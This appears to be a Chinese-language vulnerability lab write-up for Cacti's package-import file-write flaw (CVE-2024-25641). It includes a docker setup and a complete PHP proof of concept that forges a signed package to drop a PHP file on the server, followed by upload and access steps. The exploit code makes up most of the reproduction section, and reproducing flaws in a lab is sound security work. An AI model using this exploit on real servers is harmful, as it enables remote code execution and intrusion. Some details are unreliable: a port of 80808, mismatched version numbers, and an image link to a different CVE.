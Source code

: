 # Cacti 导入包任意写入RCE漏洞（CVE-2024-25641）



Cacti 是一个为全球用户提供强大且可扩展的运营监控和故障管理框架。它还是一个完整的网络绘图解决方案，旨在利用RRDTool的数据存储和绘图功能。Cacti 包括一个完全分布式和容错的数据收集框架、用于设备、图表和树的高级基于模板的自动化功能、多种数据采集方法、通过插件进行扩展的能力、基于角色的用户、组和域管理功能，此外还有一个主题引擎和多种语言支持，所有这些都是开箱即用的。
	Cacti 通过“包导入”功能可利用任意文件写入漏洞，允许具有“导入模板”权限的经过身份验证的用户在 Web 服务器上执行任意 PHP 代码。

**影响版本**：1.2.26

**项目地址**：https://github.com/Cacti/cacti

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88



## 漏洞环境



执行如下命令启动一个cacti-v1.2.25-web服务：

```
docker compose up 
```

服务启动后，访问`http://your-ip:80808/`即可跳转到到cacti安装向导界面。

![](https://github.com/Shelter1234/VulneraLab/blob/main/Cacti/CVE-2023-51448/1.png)

## 漏洞复现

1. 使用以下PHP脚本生成恶意包

   ```php
   <?php
   
   $xmldata = "<xml>
      <files>
          <file>
              <name>resource/test.php</name>
              <data>%s</data>
              <filesignature>%s</filesignature>
          </file>
      </files>
      <publickey>%s</publickey>
      <signature></signature>
   </xml>";
   $filedata = "<?php phpinfo(); ?>";
   $keypair = openssl_pkey_new(); 
   $public_key = openssl_pkey_get_details($keypair)["key"]; 
   openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
   $data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
   openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
   file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
   system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");
   
   ?>
   ```

   2. 使用具有“导入模板”权限的用户登录 Cacti 转到**导入/导出**->**导入包** 上传并导入`test.xml.gz`之前生成的文件

      ![1](./1.png)![2](./2.png)

3. 通过**http://[cacti]/resource/test.php**访问：

   ![3](./3.png)